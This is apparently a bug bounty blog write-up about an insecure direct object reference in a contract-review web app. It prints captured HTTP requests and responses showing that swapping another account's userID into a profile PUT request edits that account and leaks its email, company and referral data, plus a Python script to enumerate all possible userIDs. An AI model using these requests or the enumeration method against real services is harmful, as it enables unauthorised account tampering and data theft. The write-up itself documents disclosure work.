 ```yaml
---
layout: post
title: Changing userID leads to Data leakage and Profile Update
categories: bug hunting 
---
```


In another bug bounty session of mine, I came across a bounty program of a "Contract Review" company.

In their web app, one could register with a first/last name, an email and their company's name (and a password ofc).

Upon trying to figure out how the web app works, I updated my profile by changing my first name from "vict0ni" to "vict0ni1337". I captured the request:

```
OPTIONS /users/5e335fafedd93a1f35b6ca27 HTTP/1.1
Host: clientapi.website.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: */*
Accept-Language: en,en-US;q=0.7,de;q=0.3
Accept-Encoding: gzip, deflate
Access-Control-Request-Method: PUT
Access-Control-Request-Headers: authorization,content-type
Origin: https://app.website.com
Connection: close
```
followed by:
```
PUT /users/5e335fafedd93a1f35b6ca27 HTTP/1.1
Host: clientapi.website.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en,en-US;q=0.7,de;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json; charset=utf-8
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2KyIjoiNWUzMzVmYWZlZGQ5M2UxZjM1YjZjYTI3IiwiaWF0IjoxNTgwNDk1MDQ3LCJleHAiOjE1NTM3MjQ5NTA0N30.LM8jJM46ZvFPwlzJ9hezXf_W0oOSpgvfpOastWU7UZA
Content-Length: 188
Origin: https://app.website.com
Connection: close

{"user":{"firstName":"vict0ni1337","lastName":"0x00sec","email":"vict0ni@bugcrowdninja.com","password":null,"dismissedGuides":{"contractHelpPopup":false},"company":"5e335faeedd93a1f35b6ca26"}}
```
resulting to this response:
```
HTTP/1.1 200 OK
Date: Thu, 06 Feb 2020 13:43:35 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 948
Connection: close
Set-Cookie: __cfduid=db2571d1ac9e83a96ca3265b9a0bf1d4c1580996613; expires=Sat, 07-Mar-20 13:43:33 GMT; path=/; domain=.website.com; HttpOnly; SameSite=Lax
Access-Control-Allow-Origin: https://app.website.com
ETag: W/"3b4-QbbUm9x0qtqg3/Bqcixd7mbQgqw"
Vary: Origin, Accept-Encoding
CF-Cache-Status: DYNAMIC
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Server: cloudflare
CF-RAY: 560d8dc0581c4098-HAM

{"users":[{"contracts":[],"createdAt":1580425135972,"updatedAt":1580996613958,"id":"5e335fafedd93a1f35b6ca27","email":"vict0ni@bugcrowdninja.com","firstName":"vict0ni1337","lastName":"0x00sec","role":"admin","resetPasswordTokenExpires":0,"dismissedGuides":{"contractHelpPopup":false},"dripId":"3measgw3gr1yjpgvddqn","deleted":false,"master":false,"lastLogoutDate":0,"company":"5e335faeedd93a1f35b6ca26"}],"companies":[{"createdAt":1580425133542,"updatedAt":1580428552059,"id":"5e335faeedd93a1f35b6ca26","name":"BugBounty","seq":5119,"vatId":"","phone":"1337","country":null,"employeeCount":"","singleReviewsAvailable":3,"monthlyReviewsAvailable":0,"referredByCode":"","referralCode":"zqpwr","referralExtraCredits":0,"subscription":{"id":"16A1DGRp7Up0s1Qu7","planId":"website-basic","planName":"website Basic"},"emailInAddress":"","links":{"users":"/companies/5e335faeedd93a1f35b6ca26/users","contracts":"/companies/5e335faeedd93a1f35b6ca26/contracts"}}]}
```
So I was making an OPTIONS request and then a PUT request with my personal userID ``5e335fafedd93a1f35b6ca27`` updating my first name (one could only change the first and last name).

I always make two accounts when testing a web app. I did the same thing for my second account, just in order to grab that userID. Then I thought what could happen if I used the userID of account B in a request to update the account A. So I did the exact same thing as described above, being authorized as a user of account A, but using the userID of account B:

```
PUT /users/5e3c8692f3d2c616c6ed78e9 HTTP/1.1
Host: clientapi.website.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en,en-US;q=0.7,de;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json; charset=utf-8
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2KyIjoiNWUzMzVmYWZlZGQ5M2UxZjM1YjZjYTI3IiwiaWF0IjoxNTgwNDk1MDQ3LCJleHAiOjE1NTM3MjQ5NTA0N30.LM8jJM46ZvFPwlzJ9hezXf_W0oOSpgvfpOastWU7UZA
Content-Length: 188
Origin: https://app.website.com
Connection: close

{"user":{"firstName":"vict0ni1337","lastName":"0x00sec","email":"vict0ni@bugcrowdninja.com","password":null,"dismissedGuides":{"contractHelpPopup":false},"company":"5e335faeedd93a1f35b6ca26"}}
```
resulting to this response:

```
HTTP/1.1 200 OK
Date: Thu, 06 Feb 2020 21:38:07 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 943
Connection: close
Set-Cookie: __cfduid=d78cefde78c34008ca49d162306b8fcfb1581025085; expires=Sat, 07-Mar-20 21:38:05 GMT; path=/; domain=.website.com; HttpOnly; SameSite=Lax
Access-Control-Allow-Origin: https://app.website.com
ETag: W/"3af-ctJNYxOVotnOZ8DYR4ejpainHVE"
Vary: Origin, Accept-Encoding
CF-Cache-Status: DYNAMIC
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Server: cloudflare
CF-RAY: 561044dd2b4fcd93-CDG

{"users":[{"contracts":[],"createdAt":1581024914019,"updatedAt":1581025085895,"id":"5e3c8692f3d2c616c6ad78e9","email":"yigoxa6599@jmail7.com","firstName":"vict0ni1337","lastName":"0x00sec","role":"admin","resetPasswordTokenExpires":0,"dismissedGuides":{"contractHelpPopup":false},"dripId":"5pjs1pjjwprphpkce0rj","deleted":false,"master":false,"lastLogoutDate":0,"company":"5e3c8690f3d2c616c6ed78e8"}],"companies":[{"createdAt":1581024911551,"updatedAt":1581024919638,"id":"5e3c8690f3d2c616c6ed78e8","name":"CompanyB","seq":5137,"vatId":"","phone":"","country":null,"employeeCount":"","singleReviewsAvailable":3,"monthlyReviewsAvailable":0,"referredByCode":"","referralCode":"plozx","referralExtraCredits":0,"subscription":{"id":"16BcmbRpl5Qvt1Lwv","planId":"website-basic","planName":"website Basic"},"emailInAddress":"","links":{"users":"/companies/5e3c8690f3d2c616c6ed78e8/users","contracts":"/companies/5e3c8690f3d2c616c6ed78e8/contracts"}}]}
```
So, by changing the userID to the account B's userID, I could update the account B's first and last name, grab it's mail, referral code, companyID, subscription plan, number of employees, phone number, the company's [VAT identification number](https://en.wikipedia.org/wiki/VAT_identification_number) etc., while being authorized as account A. With the referral code, a user could use it to gain $30 as a "gift" for getting referred by another user.

While that's all good, the userID of each account remains secret. There had to be some kind of MiTM attack to capture it and make a targeted attack. So I thought maybe I could generalize the attack, instead of targeting a single account.
By using dummy userIDs, in order to test the brute-force protection, I found out that the endpoint was vulnerable to brute-force attacks. Since the userID is following a certain pattern (a string of 24 hex characters), one could generate all the possible IDs and save them into a file with this python script:

```python
import itertools

string = '0123456789abcdef'
file = open('userIDs.txt', 'w')
for p in itertools.product(string, repeat=24):
	writing = ''.join(p) + '\n'
	file.write(writing)
file.close()
```

With enough computing power, an attacker could change the first/last name of all users and grab their account and company info.


Thanks for reading!